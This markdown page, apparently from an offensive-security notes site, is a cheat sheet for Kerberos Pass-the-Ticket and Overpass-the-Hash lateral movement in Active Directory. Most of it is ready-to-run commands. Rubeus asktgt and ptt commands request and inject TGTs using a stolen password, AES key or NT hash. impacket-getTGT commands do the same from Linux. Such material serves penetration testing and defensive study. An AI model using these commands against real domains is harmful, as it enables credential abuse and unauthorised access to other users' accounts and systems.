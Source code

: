 ```yaml
---
label: Pass-the-Ticket (Kerberos)
subLabel: (Rubeus, getTGT)
---
```


# Pass-the-Ticket for Lateral Movement

> **Requirements**
>
> * Credentials (password, RC4/NT hash, AES key, kirbi file) of the target domain user.

Having the credentials of a domain user, we can ask the DC for a new TGT for that user and inject it into the current logon session. This TGT is then used for authentication (e.g. using `winrs` or accessing SMB shares) with privileges of the target user.

**Watch out for domain name!** It's very important in TGT request to use FQDN (e.g. `adlab.local` instead of `adlab`). Even if shortcut normally works, use FQDN in this case.

Windows:

> **IMPORTANT**: Only one TGT can be applied at a time to the current logon session, so the previous TGT is wiped when the new ticket is applied when using the `/ptt` option. You can omit the `/ptt` parameter to **save the TGT to a file** (not inject it into memory) and use it later.

```powershell
# Using password
./Rubeus.exe asktgt /user:$fqdn\$user /password:$password /ptt

# Using AES256 key
./Rubeus.exe asktgt /user:$fqdn\$user /aes256:$aes256_key /ptt

# Using RC4/NT hash (Overpass-the-Hash)
./Rubeus.exe asktgt /user:$fqdn\$user /rc4:$rc4 /ptt

# Inject TGT as base64 or .kirbi file
./Rubeus.exe ptt /ticket:$base64_or_kirbi_file

# Check TGT in memory
klist
klist tgt
```

{/*TODO: /createonlt parameter (elevation required)*/}

Linux (request TGT and save it to `.ccache` file):

```bash
# Using password
impacket-getTGT $fqdn/$user:$pass -dc-ip $dc_ip

# Using NT hash
impacket-getTGT $fqdn/$user -hashes :$nt_hash -dc-ip $dc_ip

# Using AES key
impacket-getTGT $fqdn/$user -aesKey $aes_key -dc-ip $dc_ip
```

## References

* [GhostPack, *Rubeus: asktgt*](https://github.com/GhostPack/Rubeus?tab=readme-ov-file#asktgt)
